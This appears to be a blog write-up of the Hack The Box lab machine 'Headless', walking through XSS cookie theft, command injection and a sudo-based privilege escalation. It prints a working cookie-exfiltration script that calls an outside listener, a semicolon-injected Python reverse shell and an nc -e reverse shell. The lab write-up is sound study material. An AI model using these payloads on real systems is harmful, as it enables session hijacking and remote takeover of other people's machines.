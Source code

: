```yaml
---
title: "Headless Hackthebox"
date: 2024-07-05
draft: false
tags : ["write-up", "htb"]

---
```

## User flag
### Recon

Port scanning:
![alt text](/posts/headless-htb/image.png)

Directory scanning:

![alt text](/posts/headless-htb/image-1.png)

Server open a port (5000) for running a website. After scanning directories, I found 2 interesting directories :
* /support which we can access by `For questions` button. It has a form to submit a message. By checking its request, I find that it is using `POST` method to send data to the server. I try to send a message with a payload `<h1>alert(1)</h1>` and it responses a alert form which includes header of this request. Additionally, I decode `is_admin` cookie and get a string which have first part is `user` and second part is a unreadable string.

![alt text](/posts/headless-htb/image-2.png)

* /dashoard which is only for authenticated account. 

### Exploitation

Notice that the form print the header of request, so I try to change the header User-Agent to XSS payload and it works. 

After that, I set up a listener and send a payload to get the cookie. 
```javascript
<script>fetch("http://10.10.14.65:9030/?cookie="+document.cookie);</script>
```
I got the `is_admin` cookie.
![alt text](/posts/headless-htb/image-3.png)

Replace the cookie with the one I got, I can access the dashboard page.
![alt text](/posts/headless-htb/image-4.png)

Use `Generate report` button, the web will send a request with a parameter `data` equal the date we choose. I try to change it to a linux command and it works. Then, I use reverse shell payload to get shell.
```python
;export RHOST="10.10.14.65";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```

Get shell and user flag.
![alt text](/posts/headless-htb/image-5.png)


## Root flag
### Recon

Run `sudo -l` command, I see that I can run `sudo /usr/bin/syscheck` as root without password.
Command `syscheck` is looking for the `initdb.sh` program to execute. When `syscheck` is run as root, it will execute `initdb.sh` as root.

### Exploitation
Create a file `initdb.sh` with reverse shell payload and make it executable.
```bash
nc -e '/bin/sh' 10.10.14.65 7878
```

Run `syscheck` and get root shell.
![alt text](/posts/headless-htb/image-6.png)

---
